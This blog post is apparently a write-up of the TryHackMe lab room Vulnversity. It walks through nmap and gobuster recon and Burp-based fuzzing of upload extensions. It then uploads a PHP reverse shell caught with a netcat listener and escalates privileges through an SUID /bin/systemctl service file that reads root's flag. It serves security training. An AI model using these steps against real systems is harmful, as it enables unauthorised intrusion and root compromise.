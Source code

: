 ```yaml
---
title: Writeup for TryHackMe room - Vulnversity
author: 4n3i5v74
date: 2021-02-04 00:00:00 +0530
categories: [CTF, TryHackMe]
tags: [tryhackme, writeup, ctf, web]
pin: false
---
```



<div class="flex-container">
  <script src="https://tryhackme.com/badge/34685"></script>
</div>


## [Vulnversity](https://tryhackme.com/room/vulnversity){:target="_blank"}

This room is about performing recon and web attacks.

For complete tryhackme path, refer the [link](https://4n3i5v74.github.io/posts/getting-started-with-cybersecurity-tryhackme/){:target="_blank"}


## Task 2 - Reconnaisance

Use these links as references.
- [NMAP Reference](https://4n3i5v74.github.io/posts/cheatsheet-nmap/){:target="_blank"}


Using `nmap` as below, all info can be gathered for the task.
{% capture code %}{% raw %}nmap -Pn -T4 -sV --reason --open <ip>{% endraw %}{% endcapture %} {% include code.html code=code %}


## Task 3 - Locating directories using Gobuster

Use these links as references.
- [Gobuster Reference](https://4n3i5v74.github.io/posts/build-own-hacking-os/#install-gobuster){:target="_blank"}
- [Gobuster Reference](https://4n3i5v74.github.io/posts/cheatsheet-gobuster/){:target="_blank"}
- [Wordlist Reference](https://4n3i5v74.github.io/posts/build-own-hacking-os/#wordlists---rockyou){:target="_blank"}


Using `gobuster` and `dirb` wordlists, find the child directories under web root.
{% capture code %}{% raw %}gobuster dir -u http://<ip>:3333 -w /usr/share/wordlists/dirb/common.txt -q{% endraw %}{% endcapture %} {% include code.html code=code %}

Use either `curl` or browser to load the pages from `gobuster` result and see if anything contains `upload` logic.
{% capture code %}{% raw %}curl http://<ip>:3333/<dir>/{% endraw %}{% endcapture %} {% include code.html code=code %}


## Task 4 - Compromise the webserver

Use these links as references.
- [Burpsuite Reference](https://4n3i5v74.github.io/posts/build-own-hacking-os/#install-burpsuite){:target="_blank"}


This task can be done using `burpsuite`.
- Open `firefox` and set proxy `127.0.0.1:8080`
- Open `burpsuite` and turn `intercept on`
- Using the url previously found for uploading files, load the url `http://<ip>:3333/<dir>/` in `firefox` and upload a file
- In `burpsuite`, in `proxy` tab, select the content and `send to intruder`
- In `burpsuite`, in `intruder` tab, and in `positions` tab, select `sniper` attack type, `clear §`, and `add §` to filename extension
- In `burpsuite`, in `intruder` tab, and in `payloads` tab, load `/usr/share/wordlists/SecLists/Fuzzing/extensions-m1ost-common.fuzz.txt` and `start attack`
- Check the results for different response size to find which extensions are not blocked
- Quit `burpsuite` and reverse proxy setting in `firefox`

Download the [php reverse shell payload](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php){:target="_blank"},and copy the file under extension `.phtml`. Edit the file and and change ip to local machine ip.

Start a netcat session to listen for reverse proxy connection.
{% capture code %}{% raw %}nc -lnvp 1234{% endraw %}{% endcapture %} {% include code.html code=code %}

Using the url previously found for uploading files, load the url `http://<ip>:3333/<dir>/` in `firefox` and upload payload file, and navigate to the url `http://<ip>:3333/<dir>/uploads/php-reverse-shell.phtml`. A reverse shell should have been created in the `netcat` listening terminal.

The `user` managing the web server and the `flag` can be retrieved from the shell.


## Task 5 - Privilege Escalation

Now the webserver is compromised and a shell access is gained. This task shows how to gain privilege escalation using `SUID`.

Find the commands which has `SUID` set. This allows normal user to gain root access temporarily. Any of the below command can be used to find the binaries allowing `SUID`.
{% capture code %}{% raw %}find / -perm /4000 2>&1 | grep -v “Permission denied”{% endraw %}{% endcapture %} {% include code.html code=code %}
{% capture code %}{% raw %}find / -user root -perm -4000 -exec ls -ldb {} \;{% endraw %}{% endcapture %} {% include code.html code=code %}

Since the binary found is `/bin/systemctl`, create a temporary `service file`, and run it, to gain `SUID` access.
{% capture code %}{% raw %}eop=$(mktemp).service{% endraw %}{% endcapture %} {% include code.html code=code %}

{% capture code %}{% raw %}echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $eop{% endraw %}{% endcapture %} {% include code.html code=code %}

{% capture code %}{% raw %}/bin/systemctl link $eop{% endraw %}{% endcapture %} {% include code.html code=code %}

{% capture code %}{% raw %}/bin/systemctl enable --now $eop{% endraw %}{% endcapture %} {% include code.html code=code %}


Capture the flag from the manipulated output file.
{% capture code %}{% raw %}cat /tmp/output{% endraw %}{% endcapture %} {% include code.html code=code %}

